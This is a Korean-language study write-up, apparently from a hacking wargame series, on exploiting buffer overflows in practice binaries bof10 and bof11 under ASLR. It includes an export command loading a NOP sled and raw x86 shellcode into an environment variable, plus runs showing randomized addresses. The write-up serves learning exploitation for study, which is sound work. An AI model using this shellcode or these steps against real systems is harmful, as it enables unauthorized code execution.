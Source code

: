 - ASLR 비활성화 시 출력

    ```shell
    λ  csrepo ./a.out
    stack value address : 0x7ffc61e8da54
    λ  csrepo ./a.out
    stack value address : 0x7ffc61e8da54
    λ  csrepo ./a.out
    stack value address : 0x7ffc61e8da54
    ```
    
# ASLR 우회 

지금까지 `bof1` 부터 `bof9` 까지 풀어봤는데 모두 다 ASLR 이 비활성화된 환경이었다. 이제부터는 ASLR 이 활성화된 시스템에서 `BOF` 취약점으로 익스플로잇을 시도해보자. 

## bof10 bof11 풀어보기 

- `bof10` 는 `ASLR` 이 걸린 상황에서의 `bof8` 과 같은 문제고 `bof11` 은 `ASLR` 이 걸린 상황에서늬 `bof9` 문제와 같다.

- `bof10` 는 `bof8` 처럼 스택에 실행권한이 있어서(NX 비트가 걸려있지 않음) 환경변수에 쉘코드를 삽입하여 익스플로잇을 시도할 수 있다. 하지만 `bof11` 는 `bof9` 처럼 스택에 실행권한이 제거되서 `RTL` 기법을 시도해야 한다. 

# bof10 설명

1. `bof10` 을 실행시키는 환경은 NX 비트가 스택에 활성화 되어있지 않은 대신 **ASLR** 이 활성화 되어있다. 그리고 `32` 비트 용 프로그램(`x86`) 으로 컴파일 되어 있어서 주소값으로 `4` 바이트를 사용한다. 

2. `buf` 의 사이즈가 `8` 밖에 되지 않기 때문에 일단 쉘코드를 환경변수에 삽입해야 한다.

    ```shell
    export SHELLCODE=`python -c "print '\x90'*10 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
3. 그런데 ASLR 이 활성화되어 있기 때문에 `SHELLCODE` 환경변수의 주소값이 계속 변한다. 

    ```shell
    $ ./bof10 chansol
    Hello chansol[0xffa8b5e8]!
    (env:SHELLCODE -> 0xffa8c834)
    $ ./bof10 chansol
    Hello chansol[0xff7fc9c8]!
    (env:SHELLCODE -> 0xff7fe834)
    $ ./bof10 chansol
    Hello chansol[0xffa28a98]!
    (env:SHELLCODE -> 0xffa29834)
    ```

4. 그래서 쉘 코드를 `SHELLCODE` 환경변수에 저장해놓더라도 쉘 코드로 점프하기가 쉽지 않다. 지금 이 시점에서 `NOP` 코드를 `10` 바이트밖에 넣지 않았기 때문에 점프되면 쉘 코드를 실행시킬 수 있는 주소의 범위가 `NOP` 코드 `10` 바이트와 쉘 코드가 정확하게 시작되는 주소값을 합해서 `11` 바이트이다. 
